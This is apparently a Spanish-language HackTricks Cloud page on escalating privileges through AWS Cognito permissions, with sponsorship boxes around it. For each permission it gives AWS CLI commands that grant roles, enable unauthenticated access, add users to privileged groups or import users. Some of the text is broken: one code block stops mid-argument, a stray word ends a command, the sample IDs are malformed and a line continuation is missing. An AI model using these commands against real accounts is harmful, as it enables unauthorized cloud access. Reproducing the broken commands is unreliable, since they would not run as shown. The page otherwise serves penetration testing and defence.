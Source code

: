 # AWS - Cognito Privesc

<details>

<summary><strong>¡Apoya a HackTricks y obtén beneficios!</strong></summary>

* Si quieres ver a tu **empresa anunciada en HackTricks** o si quieres acceder a la **última versión de PEASS o descargar HackTricks en PDF** ¡Consulta los [**PLANES DE SUSCRIPCIÓN**](https://github.com/sponsors/carlospolop)!
* Obtén el [**oficial PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Descubre [**The PEASS Family**](https://opensea.io/collection/the-peass-family), nuestra colección de exclusivos [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **sígueme** en **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Comparte tus trucos de hacking enviando PRs a los repositorios de** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>

## Cognito

Para obtener más información sobre Cognito, consulte:

{% content-ref url="../aws-services/aws-cognito-enum/" %}
[aws-cognito-enum](../aws-services/aws-cognito-enum/)
{% endcontent-ref %}

### Recopilación de credenciales de Identity Pool

Como Cognito puede otorgar credenciales de **roles IAM** tanto a usuarios **autenticados** como **no autenticados**, si localiza el **ID de Identity Pool** de una aplicación (debería estar codificado en ella) puede obtener nuevas credenciales y, por lo tanto, privesc (dentro de una cuenta de AWS donde probablemente ni siquiera tenía ninguna credencial anteriormente).

Para obtener más información, [**consulte esta página**](../aws-unauthenticated-enum-access/#cognito).

**Impacto potencial:** Privesc directo al rol de servicios adjunto a los usuarios no autenticados (y probablemente al adjunto a los usuarios autenticados).

### `cognito-identity:SetIdentityPoolRoles`, `iam:PassRole`

Con este permiso, puede **conceder cualquier rol de cognito** a los usuarios autenticados / no autenticados de la aplicación cognito.

```bash
aws cognito-identity set-identity-pool-roles \
    --identity-pool-id <identity_pool_id> \
    --roles unauthenticated=<role ARN>

# Obtener credenciales
## Obtener un ID
aws cognito-identity get-id --identity-pool-id "eu-west-2:38b294756-2578-8246-9074-5367fc9f5367"
## Obtener credenciales para ese ID
aws cognito-identity get-credentials-for-identity --identity-id "eu-west-2:195f9c73-4789-4bb4-4376-99819b6928374" ole
```

Si la aplicación cognito **no tiene usuarios no autenticados habilitados**, es posible que también necesite el permiso `cognito-identity:UpdateIdentityPool` para habilitarlo.

**Impacto potencial:** Privesc directo a cualquier rol de cognito.

### `cognito-identity:update-identity-pool`

Un atacante con este permiso podría establecer, por ejemplo, un grupo de usuarios de Cognito bajo su control o cualquier otro proveedor de identidad donde pueda iniciar sesión como **forma de acceder a este Identity Pool de Cognito**. Luego, simplemente **iniciar sesión** en ese proveedor de usuarios permitirá que acceda al rol autenticado configurado en el Identity Pool.

```bash
# Este ejemplo utiliza un grupo de usuarios de Cognito como proveedor de identidad
## pero podría usar cualquier otro proveedor de identidad
aws cognito-identity update-identity-pool \
    --identity-pool-id <value> \
    --identity-pool-name <value> \
    [--allow-unauthenticated-identities | --no-allow-unauthenticated-identities] \
    --cognito-identity-providers ProviderName=user-pool-id,ClientId=client-id,ServerSideTokenCheck=false

# Ahora debe iniciar sesión en el User Pool que ha configurado
## después de tener el token de ID del inicio de sesión, continúe con los siguientes comandos:

# En este paso, ya debería tener un token de ID
aws cognito-identity get-id \
    --identity-pool-id <id_pool_id> \
    --logins cognito-idp.<region>.amazonaws.com/<YOUR_USER_POOL_ID>=<ID_TOKEN>

# Obtener el identity_id de la respuesta del comando anterior
aws cognito-identity get-credentials-for-identity \
    --identity-id <identity_id> \
    --logins cognito-idp.<region>.amazonaws.com/<YOUR_USER_POOL_ID>=<ID_TOKEN>
```

También es posible **abusar de este permiso para permitir la autenticación básica**:

```bash
aws cognito-identity update-identity-pool \
    --identity-pool-id <value> \
    --identity-pool-name <value> \
    --allow-unauthenticated-identities
    --allow-classic-flow
```

**Impacto potencial**: Compromiso del rol IAM autenticado configurado dentro del pool de identidades.

### `cognito-idp:AdminAddUserToGroup`

Este permiso permite **agregar un usuario de Cognito a un grupo de Cognito**, por lo tanto, un atacante podría abusar de este permiso para agregar un usuario bajo su control a otros grupos con privilegios **mejores** o **diferentes roles IAM**:

```bash
aws cognito-idp admin-add-user-to-group \
    --user-pool-id <value> \
    --username <value> \
    --group-name <value>
```

**Impacto potencial:** Privesc a otros grupos de Cognito y roles IAM adjuntos a los grupos de User Pool.

### (`cognito-idp:CreateGroup` | `cognito-idp:UpdateGroup`), `iam:PassRole`

Un atacante con estos permisos podría **crear / actualizar grupos** con **cada rol IAM que pueda ser utilizado por un proveedor de identidad de Cognito comprometido** y hacer que un usuario comprometido forme parte del grupo, accediendo a todos esos roles:

{% code overflow="wrap" %}
```bash
aws cognito-idp create-group --group-name Hacked --user-pool-id <user-pool-id> --role-arn <role-arn>
```
{% endcode %}

**Impacto potencial:** Privesc a otros roles IAM de Cognito.

### `cognito-idp:AdminConfirmSignUp`

Este permiso permite **verificar un registro**. Por defecto, cualquier persona puede iniciar sesión en aplicaciones Cognito, si se deja así, un usuario podría crear una cuenta con cualquier dato y verificarla con este permiso.

```bash
aws cognito-idp admin-confirm-sign-up \
    --user-pool-id <
### `cognito-idp:AdminUpdateUserAttributes`

Un atacante con este permiso podría cambiar el correo electrónico o el número de teléfono o cualquier otro atributo de un usuario bajo su control para intentar obtener más privilegios en una aplicación subyacente. Esto permite cambiar un correo electrónico o número de teléfono y establecerlo como verificado.

```bash
aws cognito-idp admin-update-user-attributes \
    --user-pool-id <value> \
    --username <value> \
    --user-attributes <value>
```

**Impacto potencial:** Posible escalada indirecta de privilegios en la aplicación subyacente que utiliza Cognito User Pool y que otorga privilegios en función de los atributos del usuario.

### `cognito-idp:CreateUserPoolClient` | `cognito-idp:UpdateUserPoolClient`

Un atacante con este permiso podría **crear un nuevo cliente de User Pool menos restringido** que los clientes de pool existentes. Por ejemplo, el nuevo cliente podría permitir cualquier tipo de método de autenticación, no tener ningún secreto, tener la revocación de tokens desactivada, permitir que los tokens sean válidos por un período más largo...

Lo mismo se puede hacer si en lugar de crear un nuevo cliente, se **modifica uno existente**.

En la [**línea de comando**](https://docs.aws.amazon.com/cli/latest/reference/cognito-idp/create-user-pool-client.html) (o en la [**de actualización**](https://docs.aws.amazon.com/cli/latest/reference/cognito-idp/update-user-pool-client.html)) se pueden ver todas las opciones, ¡compruébalo!.

```bash
aws cognito-idp create-user-pool-client \
    --user-pool-id <value> \
    --client-name <value> \
    [...]
```

**Impacto potencial:** Posible escalada indirecta de privilegios al usuario autorizado de Identity Pool utilizado por User Pool mediante la creación de un nuevo cliente que relaje las medidas de seguridad y permita que un atacante inicie sesión con un usuario que pudo crear.

### `cognito-idp:CreateUserImportJob` | `cognito-idp:StartUserImportJob`

Un atacante podría abusar de este permiso para crear usuarios cargando un archivo csv con nuevos usuarios.

```bash
# Crear un nuevo trabajo de importación
aws cognito-idp create-user-import-job \
    --job-name <value> \
    --user-pool-id <value> \
    --cloud-watch-logs-role-arn <value>

# Usar un nuevo trabajo de importación
aws cognito-idp start-user-import-job \
    --user-pool-id <value> \
    --job-id <value>

# Ambas opciones anteriores le darán una URL donde puede enviar el archivo CVS con los usuarios a crear
curl -v -T "PATH_TO_CSV_FILE" \
    -H "x-amz-server-side-encryption:aws:kms" "PRE_SIGNED_URL"
```

(En el caso de que cree un nuevo trabajo de importación, es posible que también necesite el permiso de iam passrole, aún no lo he probado).

**Impacto potencial:** Escalada directa de privilegios al rol IAM de la pool de identidades para usuarios autenticados. Escalada indirecta a otras funcionalidades de la aplicación al poder crear cualquier usuario.

### `cognito-idp:CreateIdentityProvider` | `cognito-idp:UpdateIdentityProvider`

Un atacante podría crear un nuevo proveedor de identidad para luego poder **iniciar sesión a través de este proveedor**.

```bash
aws cognito-idp create-identity-provider \
    --user-pool-id <value> \
    --provider-name <value> \
    --provider-type <value> \
    --provider-details <value> \
    [--attribute-mapping <value>] \
    [--idp-identifiers <value>]
```

**Impacto potencial:** Escalada directa de privilegios al rol IAM de la pool de identidades para usuarios autenticados. Escalada indirecta a otras funcionalidades de la aplicación al poder crear cualquier usuario.

### cognito-sync:\* Análisis

Este es un permiso muy común por defecto en los roles de Cognito Identity Pools. Incluso si un comodín en un permiso siempre parece malo (especialmente viniendo de AWS), los **permisos dados no son muy útiles desde la perspectiva de un atacante**.

Este permiso permite leer la información de uso de Identity Pools e Identity IDs dentro de Identity Pools (que no es información sensible).\
Los Identity IDs pueden tener [**Datasets**](https://docs.aws.amazon.com/cognitosync/latest/APIReference/API\_Dataset.html) asignados a ellos, que son información de las sesiones (AWS lo define como un **juego guardado**). Es posible que esto contenga algún tipo de información sensible (pero la probabilidad es bastante baja). Puede encontrar en la [**página de enumeración**](../aws-services/aws-cognito-enum/) cómo acceder a esta información.

Un atacante también podría usar estos permisos para **inscribirse en un flujo de Cognito que publique cambios** en estos datasets o un **lambda que se active en eventos de cognito**. No he visto que esto se use, y no esperaría información sensible aquí, pero no es imposible.

<details>

<summary><strong>¡Apoya a HackTricks y obtén beneficios!</strong></summary>

* Si quieres ver tu **empresa anunciada en HackTricks** o si quieres acceder a la **última versión de PEASS o descargar HackTricks en PDF** ¡Consulta los [**PLANES DE SUSCRIPCIÓN**](https://github.com/sponsors/carlospolop)!
* Obtén el [**oficial PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Descubre [**The PEASS Family**](https://opensea.io/collection/the-peass-family), nuestra colección de exclusivos [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **sígueme** en **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Comparte tus trucos de hacking enviando PR a los repositorios de** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>